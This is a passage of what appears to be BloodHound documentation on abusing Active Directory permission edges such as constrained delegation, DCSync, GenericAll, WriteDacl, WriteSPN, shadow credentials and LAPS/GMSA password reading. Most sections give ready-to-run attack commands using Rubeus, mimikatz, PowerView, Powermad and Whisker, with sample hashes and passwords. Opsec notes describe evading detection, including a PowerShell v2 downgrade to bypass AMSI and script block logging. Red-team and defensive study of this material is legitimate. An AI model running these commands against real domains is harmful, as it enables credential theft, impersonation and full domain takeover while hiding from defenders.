An issue exists in the constrained delegation where the service name (sname) of the resulting
ticket is not a part of the protected ticket information, meaning that an attacker can modify
the target service name to any service of their choice. For example, if msds-AllowedToDelegateTo
is "HTTP/host.domain.com", tickets can be modified for LDAP/HOST/etc. service names, resulting
in complete server compromise, regardless of the specific service listed.

Abuse Info
-----------

Abusing this privilege can utilize Benjamin Delpy’s Kekeo project, proxying in traffic generated
from the Impacket library, or using the Rubeus project's s4u abuse.

In the following example, *victim* is the attacker-controlled account (i.e. the hash is known)
that is configured for constrained delegation. That is, *victim* has the "HTTP/PRIMARY.testlab.local"
service principal name (SPN) set in its msds-AllowedToDelegateTo property. The command first requests
a TGT for the *victim* user and executes the S4U2self/S4U2proxy process to impersonate the "admin"
user to the "HTTP/PRIMARY.testlab.local" SPN. The alternative sname "cifs" is substituted in to the
final service ticket and the ticket is submitted to the current logon session. This grants the attacker
the ability to access the file system of PRIMARY.testlab.local as the "admin" user.

::

  Rubeus.exe s4u /user:victim /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:admin /msdsspn:"HTTP/PRIMARY.testlab.local" /altservice:cifs /ptt

Opsec Considerations
--------------------

As mentioned in the abuse info, in order to currently abuse this primitive the Rubeus C# assembly needs
to be executed on some system with the ability to send/receive traffic in the domain. See the References
for more information.

References
----------

* https://github.com/GhostPack/Rubeus#s4u
* https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/
* https://blog.harmj0y.net/activedirectory/s4u2pwnage/
* https://twitter.com/gentilkiwi/status/806643377278173185
* https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more
* https://blog.harmj0y.net/redteaming/from-kekeo-to-rubeus/
* https://blog.harmj0y.net/redteaming/another-word-on-delegation/

|

-----------

|

DCSync
^^^^^^^^^^^^^^^^^^^^^^^^

This edge represents the combination of GetChanges and GetChangesAll. The combination of both these privileges grants a principal the ability to perform the DCSync attack.

Abuse Info
-----------

With both GetChanges and GetChangesAll privileges in BloodHound, you may perform a dcsync attack to
get the password hash of an arbitrary principal using mimikatz:

::

  lsadump::dcsync /domain:testlab.local /user:Administrator

You can also perform the more complicated ExtraSids attack to hop domain trusts. For information on
this see the blog post by harmj0y in the references tab.

Opsec Considerations
--------------------

For detailed information on detection of DCSync as well as opsec considerations, see the ADSecurity
post in the references section below.

References
----------

* https://adsecurity.org/?p=1729
* https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/

|

----

|

GetChanges/GetChangesAll
^^^^^^^^^^^^^^^^^^^^^^^^

The combination of both these privileges grants a principal the ability to perform the DCSync attack.

Abuse Info
-----------

With both GetChanges and GetChangesAll privileges in BloodHound, you may perform a dcsync attack to
get the password hash of an arbitrary principal using mimikatz:
            
::

  lsadump::dcsync /domain:testlab.local /user:Administrator

You can also perform the more complicated ExtraSids attack to hop domain trusts. For information on
this see the blog post by harmj0y in the references tab.

Opsec Considerations
--------------------

For detailed information on detection of DCSync as well as opsec considerations, see the ADSecurity
post in the references section below.

References
----------

* https://adsecurity.org/?p=1729
* https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/

|

---------

|

GenericAll
^^^^^^^^^^

This is also known as full control. This privilege allows the trustee to manipulate the target object
however they wish.

Abuse Info
-----------

**With GenericAll Over a Group:**

Full control of a group allows you to directly modify group membership of the group. For full abuse
info in that scenario, see the Abuse Info section under the AddMembers edge

**With GenericAll Over a User:**

**Targeted Kerberoast**
A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with
Get-DomainSPNTicket. 

You may need to authenticate to the Domain Controller as the user with full control over the target
user if you are not running a process as that user. To do this in conjunction with Set-DomainObject,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as
the user with full control over the target user.

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

After running this, you can use Get-DomainSPNTicket as follows:
    
::

  Get-DomainSPNTicket -Credential $Cred harmj0y | fl

The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName
can be done with the Set-DomainObject command:

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname

**Force Change Password**

You can also reset user passwords with full control over user objects. For full abuse info about this attack,
see the information under the ForceChangePassword edge

**With GenericAll Over a Computer**

Full control of a computer object is abusable when the computer’s local admin account credential is
controlled with LAPS. The clear-text password for the local administrator account is stored in an extended
attribute on the computer object called ms-Mcs-AdmPwd. With full control of the computer object, you may
have the ability to read this attribute, or grant yourself the ability to read the attribute by modifying
the computer object’s security descriptor.
    
Alternatively, Full control of a computer object can be used to perform a resource based constrained
delegation attack. 

Abusing this primitive is currently only possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson's Powermad project can
be used to add a new attacker-controlled computer account:

::

  New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

::

  $ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the
binary bytes for the new DACL/ACE:

::

  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
  $SDBytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDBytes, 0)

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity
field of the computer account we're taking over, again using PowerView in this case:

::

  Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:

::

  Rubeus.exe hash /password:Summer2018!

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we
want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants
us access to the file system of the TARGETCOMPUTER:

::

  Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt

**With GenericAll Over a Domain Object**

Full control of a domain object grants you both DS-Replication-Get-Changes as well as DS-Replication-Get-Changes-All
rights. The combination of these rights allows you to perform the dcsync attack using mimikatz. To grab the
credential of the user harmj0y using these rights:

::

  lsadump::dcsync /domain:testlab.local /user:harmj0y

See a video walk through of how to execute this attack here:

.. raw:: html

    

    <iframe width="100%" height="350" src="https://www.youtube.com/embed/RUbADHcBLKg?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    

**With GenericAll Over a GPO**

With full control of a GPO, you may make modifications to that GPO which will then apply to the users and
computers affected by the GPO. Select the target object you wish to push an evil policy down to, then use
the gpedit GUI to modify the GPO, using an evil policy that allows item-level targeting, such as a new
immediate scheduled task. Then wait at least 2 hours for the group policy client to pick up and execute
the new evil policy. See the references tab for a more detailed write up on this abuse

**With GenericAll Over an OU**

With full control of an OU, you may add a new ACE on the OU that will inherit down to the objects under that
OU. Below are two options depending on how targeted you choose to be in this step:

Generic Descendent Object Takeover:

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU
that will inherit down to all object types. Again, this can be done using PowerView. This time we will use
the New-ADObjectAccessControlEntry, which gives us more control over the ACE we add to the OU.

First, we need to reference the OU by its ObjectGUID, not its name. You can find the ObjectGUID for the OU
in the BloodHound GUI by clicking the OU, then inspecting the *objectid* value

Next, we will fetch the GUID for all objects. This should be '00000000-0000-0000-0000-000000000000':

::

  $Guids = Get-DomainGUIDMap
  $AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name

Then we will construct our ACE. This command will create an ACE granting the "JKHOLER" user full control of
all descendant objects:

::

  ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'JKOHLER' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid

Finally, we will apply this ACE to our target OU:

::

  $OU = Get-DomainOU -Raw (OU GUID)
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Now, the "JKOHLER" user will have full control of all descendent objects of each type.

Targeted Descendent Object Takeoever:

If you want to be more targeted with your approach, it is possible to specify precisely what right you want
to apply to precisely which kinds of descendent objects. You could, for example, grant a user
"ForceChangePassword" privilege against all user objects, or grant a security group the ability to read every
GMSA password under a certain OU. Below is an example taken from PowerView's help text on how to grant the
"ITADMIN" user the ability to read the LAPS password from all computer objects in the "Workstations" OU:

::

  $Guids = Get-DomainGUIDMap
  $AdmPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'ms-Mcs-AdmPwd'} | select -ExpandProperty name
  $CompPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'Computer'} | select -ExpandProperty name
  $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity itadmin -Right ExtendedRight,ReadProperty -AccessControlType Allow -ObjectType $AdmPropertyGuid -InheritanceType All -InheritedObjectType $CompPropertyGuid
  $OU = Get-DomainOU -Raw Workstations
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Opsec Considerations
--------------------

.. todo:: Add opsec considerations here

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://adsecurity.org/?p=1729
* https://blog.harmj0y.net/activedirectory/targeted-kerberoasting/
* https://posts.specterops.io/a-red-teamers-guide-to-gpos-and-ous-f0d03976a31e
* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* https://blog.harmj0y.net/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

|

----

|

WriteDacl
^^^^^^^^^

With write access to the target object's DACL, you can grant yourself any privilege you want
on the object.

Abuse Info
-----------

With the ability to modify the DACL on the target object, you can grant yourself almost any
privilege against the object you wish.

**Groups**

With WriteDACL over a group, grant yourself the right to add members to the group:

::

  Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers

See the abuse info for AddMembers edge for more information about execution the attack from
there.

**Users**

With WriteDACL over a user, grant yourself full control of the user object:

::

  Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All

See the abuse info for ForceChangePassword and GenericAll over a user for more infromation
about how to continue from there.

**Computers**

With WriteDACL over a computer object, grant yourself full control of the computer
object:

::

  Add-DomainObjectAcl -TargetIdentity windows1 -Rights All

Then either read the LAPS password attribute for the computer or perform resource-based
constrained delegation against the target computer.

**Domains**

With WriteDACL against a domain object, grant yourself the ability to DCSync:

::

  Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync

Then perform the DCSync attack.

**GPOs**

With WriteDACL over a GPO, grant yourself full control of the GPO:

::

  Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All

Then edit the GPO to take over an object the GPO applies to.

**OUs**

With WriteDACL over an OU, grant yourself full control of the OU:

::

  Add-DomainObjectAcl -TargetIdentity (OU GUID) -Rights All

Then add a new ACE to the OU that inherits down to child objects to take over
those child objects.

Opsec Considerations
--------------------

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in their
network, such as script block logging and AMSI. You can bypass those security mechanisms by
downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.
            
Additional opsec considerations depend on the target object and how to take advantage of this
privilege.

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* https://blog.harmj0y.net/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount
* https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectorysecurityinheritance?view=netframework-4.8

|

----

|

GenericWrite
^^^^^^^^^^^^
Generic Write access grants you the ability to write to any non-protected attribute on the target
object, including "members" for a group, and "serviceprincipalnames" for a user

Abuse Info
-----------

**Users**

With GenericWrite over a user, perform a targeted kerberoasting attack. See the abuse section
under the GenericAll edge for more information

**Groups**

With GenericWrite over a group, add yourself or another principal you control to the group.
See the abuse info under the AddMembers edge for more information

**Computers**

With GenericWrite over a computer, perform resource-based constrained delegation against the
computer. See the GenericAll edge abuse info for more information about that attack.

**GPO**

With GenericWrite on a GPO, you may make modifications
to that GPO which will then apply to the users and
computers affected by the GPO. Select the target object
you wish to push an evil policy down to, then use the
gpedit GUI to modify the GPO, using an evil policy that
allows item-level targeting, such as a new immediate
scheduled task. Then wait for the group
policy client to pick up and execute the new evil
policy. See the references tab for a more detailed write
up on this abuse.

This edge can be a false positive in rare scenarios. If you have 
GenericWrite on the GPO with 'This object only' (no inheritance) 
and no other permissions in the ACL, it is not possible to add or 
modify settings of the GPO. The GPO's settings are stored in 
SYSVOL under a folder for the given GPO. Therefore, you need write 
access to child objects of this folder or create child objects 
permission. The security descriptor of the GPO is reflected on 
the folder, meaning permissions to write child items on the GPO
are required.

Opsec Considerations
--------------------

This will depend on which type of object you are targetting and the attack you perform. See
the relevant edge for opsec considerations for the actual attack you perform.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

WriteOwner
^^^^^^^^^^

Object owners retain the ability to modify object security descriptors, regardless of
permissions on the object's DACL.

This clip shows an example of abusing this edge:

.. raw:: html

    

    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1619?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    

Abuse Info
-----------

To change the ownership of the object, you may use the Set-DomainObjectOwner function in
PowerView.

To abuse this privilege with PowerView's Set-DomainObjectOwner, first import PowerView
into your agent session or into a PowerShell instance at the console. You may need to
authenticate to the Domain Controller as the user with the password reset privilege if
you are not running a process as that user.

To do this in conjunction with Set-DomainObjectOwner, first create a PSCredential object
(these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Set-DomainObjectOwner, optionally specifying $Cred if you are not already
running a process as the user with this privilege:

::

  Set-DomainObjectOwner -Credential $Cred -TargetIdentity "Domain Admins" -OwnerIdentity harmj0y

Now, with ownership of the object, you may modify the DACL of the object however you wish.
For more information about that, see the WriteDacl edge section.

Opsec Considerations
--------------------

This depends on the target object and how to take advantage of this privilege.

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in
their network, such as script block logging and AMSI. You can bypass those security mechanisms
by downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

WriteSPN
^^^^^^^^

The ability to write directly to the servicePrincipalNames attribute on a user object.
Writing to this property gives you the opportunity to perform a targeted kerberoasting
attack against that user.

Abuse Info
------------

A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with
Get-DomainSPNTicket. 

You may need to authenticate to the Domain Controller as the user with full control over the target
user if you are not running a process as that user. To do this in conjunction with Set-DomainObject,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as
the user with full control over the target user.

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

After running this, you can use Get-DomainSPNTicket as follows:
    
::

  Get-DomainSPNTicket -Credential $Cred harmj0y | fl

The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName
can be done with the Set-DomainObject command:

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname

Opsec Considerations
--------------------

Modifying the servicePrincipalName attribute will not, by default, generate an event on the Domain Controller.
Your target may have configured logging on users to generate 5136 events whenever a directory service is
modified, but this configuration is very rare.

References
----------

https://www.harmj0y.net/redteaming/kerberoasting-revisited/

|

----

|

Owns
^^^^

Object owners retain the ability to modify object security descriptors, regardless of permissions
on the object's DACL

This clip shows an example of abusing object ownership:

.. raw:: html

    

    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1619?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    

Abuse Info
------------

With ownership of the object, you may modify the DACL of the object however you wish.
For more information about that, see the WriteDacl edge section.

Opsec Considerations
--------------------

This depends on the target object and how to take advantage of this privilege.

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in
their network, such as script block logging and AMSI. You can bypass those security mechanisms
by downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

AddKeyCredentialLink
^^^^^^^^^^^^^^^^^^^^

The ability to write to the "msds-KeyCredentialLink" property on a user or computer.
Writing to this property allows an attacker to create "Shadow Credentials" on the
object and authenticate as the principal using kerberos PKINIT.

Abuse Info
------------

To abuse this privilege, use Whisker:
    
::

    Whisker.exe add /target:<TargetPrincipal>
    
For other optional parameters, view the Whisker documentation.

Opsec Considerations
--------------------

Executing the attack will generate a 5136 (A directory object was modified) event
at the domain controller if an appropriate SACL is in place on the target object.
    
If PKINIT is not common in the environment, a 4768 (Kerberos authentication ticket
(TGT) was requested) ticket can also expose the attacker.

References
----------

https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab

|

----

|

ReadLAPSPassword
^^^^^^^^^^^^^^^^^^^^^^^^

This privilege allows you to read the LAPS password from a computer

Abuse Info
-----------
You may need to authenticate to the Domain Controller as the user with full control over the target
user if you are not running a process as that user. To do this in conjunction with Get-DomainObject,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Get-DomainObject, optionally specifying $Cred if you are not already running a process as
the user with full control over the target user.

::

  Get-DomainObject -Credential $Cred -Identity windows10 -Properties "ms-mcs-AdmPwd",name

Opsec Considerations
--------------------

Reading properties from LDAP is extremely low risk, and can only be found using monitoring of LDAP queries.

References
----------

* https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf
* https://adsecurity.org/?p=3164

|

----

|

ReadGMSAPassword
^^^^^^^^^^^^^^^^^^^^^^^^

This privilege allows you to read the password for a Group Managed Service Account (GMSA).
Group Managed Service Accounts are a special type of Active Directory object, where the password
for that object is mananaged by and automatically changed by Domain Controllers on a set interval
(check the MSDS-ManagedPasswordInterval attribute).

The intended use of a GMSA is to allow certain computer accounts to retrieve the password for the GMSA,
then run local services as the GMSA. An attacker with control of an authorized principal may abuse that
privilege to impersonate the GMSA.`;

Abuse Info
-----------
There are several ways to abuse the ability to read the GMSA password.
The most straight forward abuse is possible when the GMSA is currently logged on to a computer, which is the intended behavior for a GMSA.

If the GMSA is logged on to the computer account which is granted the ability to retrieve the GMSA's password,
simply steal the token from the process running as the GMSA, or inject into that process.

If the GMSA is not logged onto the computer, you may create a scheduled task or service set to run as the GMSA.
The computer account will start the sheduled task or service as the GMSA, and then you may abuse the GMSA
logon in the same fashion you would a standard user running processes on the machine (see the "HasSession" help modal for more details).
Finally, it is possible to remotely retrieve the password for the GMSA and convert that password to its equivalent NT hash,
then perform overpass-the-hash to retrieve a Kerberos ticket for the GMSA:

1. Build GMSAPasswordReader.exe from its source: https://github.com/rvazarkar/GMSAPasswordReader

2. Drop GMSAPasswordReader.exe to disk. If using Cobalt Strike, load and run this binary using execute-assembly

3. Use GMSAPasswordReader.exe to retrieve the NT hash for the GMSA. You may have more than one NT hash come back, one for the
"old" password and one for the "current" password. It is possible that either value is valid:

::

  gmsapasswordreader.exe --accountname gmsa-jkohler

At this point you are ready to use the NT hash the same way you would with a regular user account.
You can perform pass-the-hash, overpass-the-hash, or any other technique that takes an NT hash as an input.

Opsec Considerations
--------------------

When abusing a GMSA that is already logged onto a system, you will have the same opsec considerations as when
abusing a standard user logon. For more information about that, see the "HasSession" modal's opsec considerations tab.

When retrieving the GMSA password from Active Directory, you may generate a 4662 event on the Domain Controller;
however, that event will likely perfectly resemble a legitimate event if you request the password from the same
context as a computer account that is already authorized to read the GMSA password.

References
----------

* https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/
* https://www.powershellgallery.com/packages/DSInternals/
* https://github.com/markgamache/gMSA/tree/master/PSgMSAPwd
* https://adsecurity.org/?p=36
* https://adsecurity.org/?p=2535
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4662

|

----

|

Contains
^^^^^^^^

GPOs linked to a container apply to all objects that are contained by the container. Additionally,
ACEs set on a parent OU may inherit down to child objects.

Abuse Info
-----------

With control of an OU, you may add a new ACE on the OU that will inherit down to the objects under that
OU. Below are two options depending on how targeted you choose to be in this step:

Generic Descendent Object Takeover:

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU
that will inherit down to all object types. Again, this can be done using PowerView. This time we will use
the New-ADObjectAccessControlEntry, which gives us more control over the ACE we add to the OU.

First, we need to reference the OU by its ObjectGUID, not its name. You can find the ObjectGUID for the OU
in the BloodHound GUI by clicking the OU, then inspecting the *objectid* value

Next, we will fetch the GUID for all objects. This should be '00000000-0000-0000-0000-000000000000':

::

  $Guids = Get-DomainGUIDMap
  $AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name

Then we will construct our ACE. This command will create an ACE granting the "JKHOLER" user full control of
all descendant objects:

::

  ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'JKOHLER' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid

Finally, we will apply this ACE to our target OU:

::

  $OU = Get-DomainOU -Raw (OU GUID)
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Now, the "JKOHLER" user will have full control of all descendent objects of each type.

Targeted Descendent Object Takeoever:

If you want to be more targeted with your approach, it is possible to specify precisely what right you want
to apply to precisely which kinds of descendent objects. You could, for example, grant a user
"ForceChangePassword" privilege against all user objects, or grant a security group the ability to read every
GMSA password under a certain OU. Below is an example taken from PowerView's help text on how to grant the
"ITADMIN" user the ability to read the LAPS password from all computer objects in the "Workstations" OU:

::

  $Guids = Get-DomainGUIDMap
  $AdmPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'ms-Mcs-AdmPwd'} | select -ExpandProperty name
  $CompPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'Computer'} | select -ExpandProperty name
  $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity itadmin -Right ExtendedRight,ReadProperty -AccessControlType Allow -ObjectType $AdmPropertyGuid -InheritanceType All -InheritedObjectType $CompPropertyGuid
  $OU = Get-DomainOU -Raw Workstations
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Opsec Considerations
--------------------

.. todo:: add opsec considerations

References
----------

* https://wald0.com/?p=179
* https://blog.cptjesus.com/posts/bloodhound15

|

----

|

AllExtendedRights
^^^^^^^^^^^^^^^^^

Extended rights are special rights granted on objects which allow reading of privileged
attributes, as well as performing special actions.

Abuse Info
-----------

**Users**

Having this privilege over a user grants the ability to reset the user's password. For
more information about that, see the ForceChangePassword edge section

**Computers**

You may perform resource-based constrained delegation with this privilege over a computer
object. For more information about that, see the GenericAll edge section.

**Domain**
The AllExtendedRights privilege grants both the
DS-Replication-Get-Changes and DS-Replication-Get-Changes-All 
privileges, which combined allow a principal to replicate objects from the domain.
This can be abused using the lsadump::dcsync command in mimikatz.

Opsec Considerations
--------------------

This will depend on the actual attack performed. See the particular opsec considerations
sections for the ForceChangePassword, AddMembers, and GenericAll edges for more info

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

GPLink
^^^^^^

A linked GPO applies its settings to objects in the linked container.

Abuse Info
-----------

This edge helps you understand which object a GPO applies to, and so the actual abuse
is actually being performed against the GPO this edge originates from. For more info
about that abuse, see the GenericAll edge section for when you have full control over
a GPO.

Opsec Considerations
--------------------

See the GenericAll edge section for opsec considerations

References
----------

https://wald0.com/?p=179

|

----

|

AllowedToAct
^^^^^^^^^^^^

An attacker can use this account to execute a modified S4U2self/S4U2proxy abuse chain to
impersonate any domain user to the target computer system and receive a valid service
ticket "as" this user.

One caveat is that impersonated users can not be in the "Protected Users" security group
or otherwise have delegation privileges revoked. Another caveat is that the principal
added to the msDS-AllowedToActOnBehalfOfOtherIdentity DACL *must* have a service principal
name (SPN) set in order to successfully abuse the S4U2self/S4U2proxy process. If an
attacker does not currently control an account with a SPN set, an attacker can abuse the
default domain MachineAccountQuota settings to add a computer account that the attacker
controls via the Powermad project.

This clip demonstrates how to abuse this edge:

.. raw:: html

    

    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1814?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    

Abuse Info
-----------

Abusing this primitive is currently only possible through the Rubeus project.
            
To use this attack, the controlled account MUST have a service principal name set, along
with access to either the plaintext or the RC4_HMAC hash of the account.

If the plaintext password is available, you can hash it to the RC4_HMAC version using Rubeus:

::

  Rubeus.exe hash /password:Summer2018!

Use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to
"pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case
grants us access to the file system of the TARGETCOMPUTER:
    
::

  Rubeus.exe s4u /user:<trusted user> /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt

Opsec Considerations
--------------------

To execute this attack, the Rubeus C# assembly needs to be executed on some system with the
ability to send/receive traffic in the domain.

References
----------

* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* https://blog.harmj0y.net/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

|

----

|

AddAllowedToAct
^^^^^^^^^^^^^^^

The ability to modify the msDS-AllowedToActOnBehalfOfOtherIdentity property allows an attacker
to abuse resource-based constrained delegation to compromise the remote computer system. This
property is a binary DACL that controls what security principals can pretend to be any domain
user to the particular computer object.

This clip demonstrates how to abuse this edge:

.. raw:: html

    

    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1814?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    

Abuse Info
-----------

See the AllowedToAct edge section for abuse info

Opsec Considerations
--------------------

See the AllowedToAct edge section for opsec considerations

References
----------

* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* https://blog.harmj0y.net/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

|

----

|

WriteAccountRestrictions
^^^^^^^

This edge indicates the principal has the ability to write to modify several properties on the target principal, most notably the msDS-AllowedToActOnBehalfOfOtherIdentity attribute. The ability to modify the msDS-AllowedToActOnBehalfOfOtherIdentity property allows an attacker to abuse resource-based constrained delegation to compromise the remote computer system. This property is a binary DACL that controls what security principals can pretend to be any domain user to the particular computer object.

This clip demonstrates how to abuse this edge:

.. raw:: html

    

    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1814?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    

Abuse Info
------------

See the AllowedToAct edge section for abuse info

Opsec Considerations
--------------------

See the AllowedToAct edge section for opsec considerations

References
----------

